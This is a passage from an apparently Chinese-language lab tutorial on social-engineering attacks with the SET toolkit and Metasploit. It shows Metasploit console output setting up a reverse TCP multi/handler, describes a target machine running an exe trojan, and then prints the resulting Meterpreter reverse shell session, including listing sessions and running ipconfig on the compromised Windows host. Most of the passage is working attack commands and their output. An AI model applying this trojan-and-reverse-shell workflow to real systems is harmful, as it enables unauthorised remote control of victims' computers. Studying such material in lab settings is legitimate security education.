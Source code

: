 ```bash
LHOST => 192.168.175.128
resource (/root/.set/meta_config)> set LPORT 4444
LPORT => 4444
resource (/root/.set/meta_config)> set ExitOnSession false
ExitOnSession => false
resource (/root/.set/meta_config)> exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.175.128:4444 
msf5 exploit(multi/handler) > 
```

输入的内容比较多，由输出的内容可知：SET工具包，将脚本文件se-script中的每一行内容都当做相应的参数设置到框架中了，同时自动启动了Metasploit框架进行监听。

此时，我们切换到靶机，点击我们的exe木马文件，如下：

![img](https://img-blog.csdnimg.cn/20190127211151864.png)

切换到Kali命令行后，看到如下输出：

```bash
msf5 exploit(multi/handler) > [*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 1 opened (192.168.175.128:4444 -> 192.168.175.130:1100) at 2019-01-27 14:41:13 +0800

此时我们按下回车，并输入sessions命令

msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                    Connection
  --  ----  ----                     -----------                    ----------
  1         meterpreter x86/windows  LIUYAZHUANG\lyz @ LIUYAZHUANG  192.168.175.128:4444 -> 192.168.175.130:1100 (192.168.175.130)
```

可以看到靶机和攻击机之间建立了Meterpreter连接。

接着，我们输入sessions -i 1 命令进入Meterpreter命令行，具体如下：

```bash
msf5 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > ipconfig

Interface  1
============
Name         : MS TCP Loopback interface
Hardware MAC : 00:00:00:00:00:00
MTU          : 1520
IPv4 Address : 127.0.0.1


Interface  2
============
Name         : AMD PCNET Family PCI Ethernet Adapter - rface
Hardware MAC : 00:0c:29:5d:8e:d4
MTU          : 1500
IPv4 Address : 192.168.175.130
IPv4 Netmask : 255.255.255.0

meterpreter > 
```